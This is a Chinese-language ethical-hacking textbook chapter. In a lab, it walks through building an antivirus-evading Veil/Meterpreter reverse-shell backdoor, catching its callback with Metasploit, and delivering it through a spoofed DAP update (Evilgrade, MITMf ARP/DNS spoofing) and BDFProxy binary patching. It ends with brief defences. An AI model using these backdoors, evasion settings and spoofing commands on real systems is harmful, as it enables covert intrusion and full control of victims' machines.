

# 第十二章：客户端攻击

在上一章中，我们首先学习了如何通过服务器端攻击获得受害机器的访问权限。现在，我们将转向客户端攻击，讨论它们是什么，以及如何使用一个叫做 Veil 的工具来生成一个无法检测到的后门。我们还将讨论载荷。一旦我们对载荷有了一个初步了解，我们将生成一个后门，通过它实施客户端攻击到我们的系统，从而监听连接。最后，我们将学习如何在实时中实现后门，以及如何保护我们的系统免受此类攻击的技术。

在本章中，我们将覆盖以下主题：

+   客户端攻击

+   安装 Veil

+   载荷概述

+   生成 Veil 后门

+   监听连接

+   测试后门

+   假的 bdm1 更新

+   使用 bdm2 BDFProxy 进行客户端攻击

+   防护措施：交付方法

# 客户端攻击

在本节中，我们将学习客户端攻击。通常，尝试通过服务器端攻击获得目标的访问权限更为有效，比如寻找操作系统和已安装应用程序中的漏洞。如果这种方法不起作用，或者我们的目标被隐藏在一个 IP 后面，或者使用了隐藏网络，那么下一步的选择就是客户端攻击。客户端攻击要求用户进行某些操作，比如点击链接、安装更新或下载图像，从而在他们的机器上运行代码。由于这些攻击需要用户交互，因此信息收集非常重要——收集关于个人应用程序和个人身份的信息。为了使客户端攻击成功，我们需要了解一个人的朋友、他们使用的网络和网站，以及他们信任的网站。因此，收集信息时我们的重点是个人，而不是他们的应用程序或操作系统。

攻击机器将是 Kali 机器，目标机器将是 Windows。为了确保它们在同一网络中，两个机器将使用 NAT 网络。在我们的示例中，我们将使用反向连接，因此此时不需要使用单独的 IP 地址。

# 安装 Veil

在本节中，我们将学习如何生成一个无法检测到的后门。后门只是一个文件，当它在目标计算机上执行时，会给我们提供完全访问权限。生成后门有多种方法，但我们感兴趣的是生成一个无法被杀毒软件检测到的后门。这实际上并不难，如我们将看到的，只要你使用一个叫做**Veil-Evasion**的工具。

Veil-Evasion 曾经是一个独立的工具，但它的创建者最近将其与框架中的其他工具结合在一起，重新发布为 Veil-Framework。现在，它通常被称为 Veil。

从以下 GitHub 链接下载 Veil 的最新版本，即版本 3：[`github.com/Veil-Framework/Veil`](https://github.com/Veil-Framework/Veil)。如果您对 GitHub 不熟悉，它是一个版本控制系统，允许程序员发布、共享和更新源代码。在下载程序时经常使用 GitHub。Veil 的存储库可以通过 GitHub 的链接或将其复制到终端来下载。现在，在下载之前，我们实际上希望将其存储在`/opt`目录中，因此我们将执行`cd`以导航到另一个目录，并输入`/opt`来打开名为`opt`的目录。现在，这是我们将存储可选程序的位置，因此名称为`opt`，如果我们执行`ls`以列出可用目录，我们将看到我们只有一个名为`Teeth`的程序目录。

现在，如果我们想要下载`Veil`，我们必须从 GitHub 复制存储库链接，然后转到我们想要下载它的位置的终端。因此，首先我们改变目录到`/opt`，然后我们将执行`git clone`，并输入存储库的 URL。命令非常简单，如下所示：

```
git clone https://github.com/Veil-Framework/Veil
```

在这里，我们使用`clone`命令告诉`git`我们要克隆或下载这个框架、程序或项目，然后与 Veil 共享链接。要下载所需项目，只需按*Enter*，如下屏幕截图所示：


如果我们使用`ls `命令列出我们的文件，我们应该看到一个名为`Veil`的新目录。我们可以通过输入`cd Veil/`来导航到该目录。`ls`命令应列出所有可用文件，包括我们需要安装的`Veil.py`。为此，请导航到`config`目录，输入`cd config/`，并运行`setup.sh` bash 脚本。此脚本将安装 Veil-Evasion。

要在 Linux 终端中运行可执行文件，只需输入`./`，然后输入可执行文件的名称，如下所示：

```
./setup.sh
```

前一个命令应生成以下结果：


正如您在前面的屏幕截图中所看到的，我们被询问是否要安装 Veil，对此我们回答`yes`。请注意，安装可能需要一些时间。

首先，我们打开终端，接着导航到`/opt`目录，因为我们在这个目录下克隆了`Veil`，并且它被克隆到了一个名为`Veil`的目录中。所以，我们输入`cd /opt/Veil/`来切换工作目录，并进入`/opt/Veil/`目录。然后我们将启动，并进入`Veil`目录。如果我们输入`ls`命令，我们会看到`Veil`可执行文件。因此，我们可以像之前说的那样运行任何可执行文件，只需输入`./`后跟可执行文件的名称，即`Veil.py`。我们将启动它，进入`Veil`的欢迎界面，正如下面的截图所示，现在我们可以开始使用这个工具了。我们将在下一章介绍该工具的使用。

# 有效负载概述

现在 Veil 已安装完成，我们可以查看它的命令。命令非常简单，`exit`允许我们退出程序，`info`提供关于某个特定工具的信息。`list`会列出可用工具，`update`会更新 Veil，最后，`use`启用任何工具，如下图所示：


`list`命令显示了 Veil 的主要命令，如下所示：

1.  `Evasion`：这个功能生成不可检测的后门。

1.  `Ordnance`：这个功能生成`Evasion`使用的有效负载；它是一个辅助工具。

有效负载是代码的一部分，或是后门的一部分，它完成我们想要的功能。在本例中，它为我们提供了一个反向连接，并下载并执行某些内容到目标计算机上。

当 Veil-Evasion 加载完成后，您应该看到类似下图的界面：


如您所见，Veil 为我们提供了一系列可以在该工具上运行的命令。我们在这里需要的是`list`所有可用的有效负载，共有 41 个。每个有效负载分为三个部分，如下图所示。我们已将我们将使用的有效负载高亮显示，即`15) go/meterpreter/rev_https.py`：


有效负载名称的第一部分是`cs`，这表示该有效负载将被封装在的编程语言。如前面的截图所示，使用的语言包括 GO、C、CS、Python、PowerShell 和 Ruby。

有效负载的第二部分非常重要，因为这是有效负载的类型；换句话说，它是将在目标计算机上执行的代码类型。

在本例中，我们使用的是 Meterpreter，它是 Metasploit 设计的有效负载。Metasploit 是一个庞大的框架，有时用于黑客攻击。Meterpreter 在内存中运行，因此难以检测，并且不会留下大规模的痕迹。使用 Meterpreter，我们可以完全控制目标计算机，允许我们浏览文件系统、打开摄像头、安装或下载文件等。

有效载荷名称的第三部分是将用于建立连接的方法。在我们的示例中，这是`rev_https`。`rev`代表反向，`https`是将用于建立连接的协议。在前面的截图中，还有一些`rev_tcp`的示例，它创建一个反向 TCP 连接。

反向连接是指目标计算机通过后门连接到攻击者计算机。该方法可以绕过杀毒程序，因为连接并不是直接指向目标计算机，而是指向攻击者计算机。在我们的例子中，我们将使用许多网站都使用的端口`80`或`8080`，因此该连接看起来像是一个无害的网站连接。反向连接也能在隐藏的计算机上工作，使其成为获取计算机访问权限的最实用方法之一。

有些有效载荷不遵循常规的命名规则，例如`shellcode_inject`。它实际上创建了一个普通的有效载荷，将我们的其他有效载荷注入其中。

# 生成 Veil 后门

现在我们将使用 Veil 生成一个后门。首先，我们运行`list`命令。我们输入`use 1`命令，因为我们想使用`Evasion`，然后按*Enter*键，并且因为我们想使用第十五个有效载荷，我们将运行`use 15`命令，如下所示：


使用以下选项，我们将把有效载荷的`IP LHOST`更改为我们正在使用的 Kali 机器的 IP 地址。

要获取我们 Kali 机器的 IP 地址，我们必须运行`ifconfig`。通过右键点击并选择“水平分屏”，然后运行命令。如下所示的截图中，Kali 机器的 IP 地址是`10.0.2.15`，这是我们希望目标计算机在执行后门后连接回来的地址：


要将`LHOST`设置为`10.0.2.15`，请输入`set`命令后跟要更改的选项，如下所示：

```
set LHOST 10.0.2.15
```

现在我们需要更改`LPORT`，将其设置为`8080`。这个端口也被 Web 服务器使用，因此不会显得可疑，且应该仍能绕过防火墙。要设置正确的端口，请输入`set LPORT 8080`命令，如下所示的截图所示：


根据经验，这个过程将绕过除 AVG 外的所有杀毒程序。杀毒程序使用一个庞大的签名数据库来工作。这些签名对应包含有害代码的文件，所以如果我们的文件与数据库中的任何值匹配，它将被标记为病毒或恶意软件。因此，我们需要确保我们的后门尽可能独特，以便能够绕过每一款杀毒软件。Veil 通过加密后门、混淆代码并将其注入内存中来尽量避免被检测到，但这对于 AVG 并不奏效。

为了确保我们的后门能够绕过 AVG 防病毒程序，我们需要修改它使用的最小处理器数量——在这种情况下是`1`。为此，请使用以下命令：

```
set PROCESSORS 1
```

我们还将修改`SLEEP`选项，这是后门执行有效负载之前等待的秒数。为了让后门等待`6`秒，请使用以下命令：

```
set SLEEP 6 
```

这些更改反映在以下截图中：


现在，我们将使用`generate`命令生成后门，如下所示：


我们现在需要为后门命名。在这里，我们将其命名为`rev_https_8080`。以下截图展示了生成后门后的情况，包括后门使用的模块和它存储的位置：


为了测试我们的后门，我们将绕过 Veil 的`checkvt`命令（它并不总是准确的）和与防病毒软件共享结果的 VirusTotal，而选择使用 NoDistribute 网站，如下图所示：


现在，点击**浏览...**，并导航到你的文件所在路径`/usr/share/veil-output/compiled`，如下所示：


一旦我们点击了**扫描文件**或**查看上次结果**，就可以看到我们上传的文件成功绕过了*所有*的防病毒程序，如下图所示：

文件上传绕过了防病毒程序

请记住，Veil 在更新到最新版本时效果最佳。同样值得注意的是，后门是否能被检测到往往是偶然的——我们之前生成的一个没有设置休眠时间的后门被防病毒软件检测到了，另一个休眠时间为 10 秒的后门也被检测到。然而，设置了 6 秒休眠时间的后门却成功绕过了所有程序。

我们建议尝试使用有效负载中的所有可用选项，找到适合你的方式。

# 监听连接

如你所知，我们创建的后门使用的是反向有效负载。为了使反向有效负载正常工作，我们需要在我们的计算机上打开一个端口，以便目标机器能够连接到它。当我们创建后门时，我们将端口设置为`8080`，因此我们需要在我们的 Kali 机器上打开该端口。记住，在此示例中，我们选择的有效负载名称是`meterpreter/rev_https`。

接下来，我们将像之前一样分屏，并使用 Metasploit 框架监听传入连接。要运行 Metasploit，请使用`msfconsole`命令，输出结果应类似于以下截图：


为了监听传入连接，我们需要使用 Metasploit 中的一个模块：`exploit/multi/handler`。要启动该模块，请使用以下命令：

```
use exploit/multi/handler
```

启动后，导航到`exploit/multi/handler`模块。你需要在这个模块中指定的最重要的内容是有效载荷，使用`set`命令进行设置。要将有效载荷设置为`windows/meterpreter/reverse_https`，请使用以下命令：

```
set PAYLOAD windows/meterpreter/reverse_https
```

如果我们现在运行`show options`命令，我们应该会看到有效载荷已更改为`windows/meterpreter/reverse_https`，如下图所示：


将`LHOST`设置为我们的 Kali 机器的 IP 地址是一个类似的过程，可以使用以下命令完成：

```
set LHOST 10.0.2.15
```

在继续之前，请确保您的有效载荷、主机和端口设置正确，并且与最初生成后门时的值一致，如下所示：


现在我们只需要执行`exploit`命令。现在，Metasploit 正在等待连接，正如我们在以下截图中所看到的，连接是在`8080`端口，并且我们的 IP 地址是`10.0.2.15`。一旦建立了连接，我们就能控制目标计算机：


# 测试后门

为了测试我们的后门是否按预期工作，我们将把它放到我们的 Web 服务器上，并从目标计算机下载它。我们不建议将这种方式用于测试以外的任何操作。

由于 Kali 可以用作网站，我们将把后门上传到网上，并从目标 Windows 机器下载它。我们将把这个下载文件保存在一个地方，一个名为`evil-files`的文件夹中，如下图所示：


现在，我们使用 Veil-Evasion 创建的后门，存储在`var/lib/veil-evasion/output/compiled/`中，需要复制并粘贴到`evil-files`目录中。就这样！我们可以从 Kali 下载文件。

要启动 Web 服务器和网站，请在终端中输入以下命令：

```
**service apache2 start**
```

这里，命令是`service`，而`apache2`是网页服务器的名称。按下*Enter*键将执行之前的命令。

现在我们需要导航到 Kali 机器的 IP 地址`10.0.2.15`。这应该会打开我们创建的基本`index.html`文件，告诉我们我们的 Web 服务器正在正常工作，如下所示：


要进入包含后门的目录，前往`10.0.2.15/evil-files`并按*Enter*。然后我们可以下载并运行后门，如下图所示：


现在我们在 Windows 机器上运行了后门，我们的 Kali 机器会告诉我们已经从目标计算机接收到连接，如下图所示：


这意味着我们现在完全控制了那台计算机。在前面的截图中，我们可以看到我们有一个 Meterpreter 会话，这允许我们做任何该计算机合法用户可以做的事情。

要检查后门是否正常工作，请使用`sysinfo`命令。你应该能看到你已经进入了`MSEDGEWIN10`机器，该机器运行的是`Windows 10 (Build 17134)`，具有`x64`架构，使用`en_US`语言，并且运行的是 Meterpreter x86 版本。


我们现在基本上已经黑进了目标计算机。干得不错！

# 假冒的 bdm1 更新

虽然我们已经有了一个不可检测的后门，但我们仍然没有找到一种聪明且高效的方式将其传送到目标机器。在现实生活中，如果我们要求目标下载并运行一个可执行文件，他们可能不会这么做。因此，我们现在将研究如何伪造一个用户愿意下载并安装到他们机器上的更新。

这种情况会在我们处于连接中时有效，例如，当使用虚假网络、实施中间人攻击或通过手机重定向流量时。

在本节中，我们将介绍使用 ARP 欺骗的 DNS 欺骗。这意味着我们与目标机器在同一网络中，在本示例中目标机器是有线网络而非无线网络。我们将使用一个名为 Evilgrade 的工具，作为服务器来生成假冒更新。你可以通过以下链接安装 Evilgrade：

[`github.com/PacktPublishing/Fundamentals-of-Ethical-Hacking-from-Scratch`](https://github.com/PacktPublishing/Fundamentals-of-Ethical-Hacking-from-Scratch)。

下载并运行`evilgrade`命令后，运行`show modules`命令查看我们可以劫持更新的程序列表，如下图所示：


如你所见，有 67 个程序我们可以劫持更新，其中包括一些流行的程序，如 Google Analytics、诺基亚、Safari 和 Download Accelerator Plus，而我们将使用后者作为本示例。

运行`configure dap`命令以使用 DAP 模块。然后，使用`show options`命令查看所有可配置的选项，如下图所示：


我们将专注的主要选项是`agent`，因此我们需要将`./agent/agent.exe`路径替换为将作为更新安装的程序路径。在我们的案例中，我们希望将后门作为更新进行安装。

在*生成 Veil 后门*部分，我们创建的后门使用的是`reverse_https`有效载荷，但这种载荷与 DAP 不兼容。因此，我们将使用一个名为`backdoor.exe`的后门，它使用`reverse_http`有效载荷。要创建这种后门，请参照*生成 Veil 后门*部分中的步骤。

要更改`agent`，使其执行我们的后门而不是更新，请使用以下命令：

```
set agent /var/www/html/backdoor.exe
```

将命令中的路径替换为 `reverse_http` 后门所在的路径。现在，再次运行 `show options` 命令，检查它是否已正确配置，如下图所示：


我们还可以按照相同的方式设置其他任何选项；我们只需要输入 `set option` 名称，后面跟上 `option` 值。你可能想设置的一个 `option` 是 `endsite`。

现在，未来可能这个网站会无法使用，所以如果它在目标计算机上显示错误，我们可以将这个网站更改为任何你想要的网站；你可以直接将其更改为 `update.speedbit.com`。

当一切准备就绪时，通过运行 `start` 命令启动服务器，如下所示：


现在，每当 Evilgrade 收到更新请求时，它会告诉任何请求更新的人有更新——我们的后门。为了实现这一点，我们需要将所有对 `update.speedbit.com` 的请求重定向到 Evilgrade。

我们可以通过 DNS 欺骗攻击来实现这个切换，将所有从 `update.speedbit.com` 的请求伪装成指向 Evilgrade（和我们的 IP 地址）。

使用 `leafpad /etc/mitmf/mitmf.conf` 命令打开 `mitmf.conf` 文件，并将 DNS 服务器的端口更改为 `5353`，以避免与 Evilgrade 冲突，如以下截图所示：


如果我们查看我们的 `A` 记录，我们会看到现在我们已经将所有对 `update.speedbit.com` 的请求重定向到我们的 IP 地址 `10.0.2.15`，Evilgrade 就运行在这个 IP 上。

现在我们要做的就是运行 MITMf，使用以下命令：

```
mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i etho --dns
```

按下 *Enter* 键，完成了！DNS 欺骗已完成。现在 Evilgrade 正在运行，我们的后门可以从 `update.speedbit.com` 下载并执行：



为了监听连接，在 `msfconsole` 终端上通过使用 `exploit/multi/handler` 模块更改选项，将有效负载设置为 `windows/meterpreter/reverse_http`，将 `LHOST` 设置为 `10.0.2.15`（这是我们 Kali 机器的 IP），将 `LPORT` 设置为 `8080`，如以下截图所示：


再次强调，目标程序将使用 `update.speedbit.com` 检查更新，这个网址将通过 MITMf 重定向到 Evilgrade 运行的 IP 地址。

现在我们需要在目标计算机上检查 DAP 更新，在我们的例子中是 Windows 计算机；当我们尝试更新 DAP 应用程序时，应该会弹出一个对话框，告诉我们需要进行关键更新，如下图所示：


一旦更新下载并安装完成，在我们 Kali 机器上的 Meterpreter 终端会话中运行`sysinfo`命令，我们应该通过运行`sysinfo`命令来确认我们已经控制了目标计算机，如下图所示：


# 使用 bdm2 BDFProxy 进行客户端攻击

在这一部分，我们将探讨另一种后门投递方法：通过主动下载来运行我们的后门。换句话说，用户将下载并安装一个程序，这个程序会按预期运行，但我们的有效载荷或后门会在后台运行。这可以通过一个叫做**Backdoor Factory Proxy**的工具实现。这也需要一个中间人攻击方法，比如 ARP 欺骗。

对于这个例子，我们选择使用 ARP 欺骗，这样所有流量将会被重定向到我们的计算机。首先，我们需要通过以下命令修改`bdfproxy.cfg`文件的配置：

```
leafpad /etc/bdfproxy/bdfproxy.cfg
```

现在我们将做两件事。首先，将`proxyMode`参数设置为`transparent`，如下图所示：


接着，修改`HOST`参数为你的 Kali 机器的 IP 地址，如下图所示：


这个代理适用于所有操作系统，它使用一个可执行文件下载，并且该文件也会包含后门。为了使其正常工作，我们只需设置我们的 IP 地址`10.0.2.15`，然后通过输入`bdfproxy`并按*Enter*键启动代理，如下图所示：


`bdfproxy_msf_resource.rc`是一个可以用来监听传入连接的文件。首先，我们需要确保代理运行在端口`8080`上，并且将来自端口`80`的所有流量重定向到`8080`。这可以通过以下命令完成：

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

要进行基本的 ARP 欺骗，我们需要运行 MITMf 并使用基本命令`mitmf --arp --spoof`，该命令应包括`--gateway`，我们的`--target`，以及接口`-i`，如下所示：

```
mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0
```

按下*Enter*后，我们需要做的就是通过 Backdoor Factory Proxy 的资源文件监听传入连接，使用以下命令：

```
msfconsole -r /root/bdfproxy_msf_resource.rc
```

按下*Enter*后，我们需要做的就是等待它加载所有可以使用的有效载荷。现在，让我们快速分析一下。目标用户将下载一个他们实际需要的程序，我们是中间人，由于我们在进行 ARP 欺骗，所有流量都会通过我们的设备。我们已经运行了 Backdoor Factory Proxy，所以每当下载一个可执行文件时，Backdoor Factory Proxy 会即时给这个可执行文件添加后门；因此，当目标用户运行这个程序时，他们会得到他们期待的程序，但与此同时，我们的后门也会在后台运行，而我们将通过监听端口来获取一个 Shell。

所以，我们将去我们的目标计算机，寻找 DAP，就是我们之前劫持的那个程序，然后从它们的官方网站下载。接着，我们将进入它们的免费下载页面，并保存文件。在下载之前，如果我们查看如下截图所示的终端，我们可以看到该文件已经被后门工厂代理修补：


一旦我们下载了 DAP 的更新，我们将前往“下载”目录并运行该文件。它看起来像一个普通的安装程序，但如果我们返回到 Meterpreter，我们可以看到该下载已经从目标计算机建立了连接，可以通过 `sessions -i 1` 进行交互，如下图所示：


运行`sysinfo`命令将确认我们已经进入 Windows 机器，并且由于后门在后台运行，我们可以完全控制该机器。

# 防护交付方式

在本节中，我们将探讨如何防护交付方式。为了防止中间人攻击，可以使用 XArp 等工具，或者使用静态 ARP 表，并避免连接未知或不信任的网络。另一个预防措施是确保在下载更新时使用 HTTPS，这样可以降低下载虚假更新的风险。

另一个有用的工具是 WinMD5。该程序会在文件的签名或校验和被修改时发出警报，这表明文件可能被篡改，或者不是原始文件。要进行检查，下载并运行 WinMD5，然后可以比较文件的签名和校验和。如果这些值相同，则文件是安全的，如下图所示：


生成的 MD5 校验和值

# 总结

本章重点讨论了客户端攻击。首先，我们安装了一个名为 Veil 的工具，利用它来利用后门，通过后门我们可以访问用户的系统。接着，我们研究了有效载荷，并生成了自己的有效载荷，对抗杀毒程序进行测试。我们还学习了如何创建一个后门 Meterpreter，用于控制目标计算机，同时不被杀毒软件检测到。最后，我们探讨了交付方式，以及如何保护系统免受此类攻击。下一章将重点讨论如何利用社会工程学对客户端发起攻击。
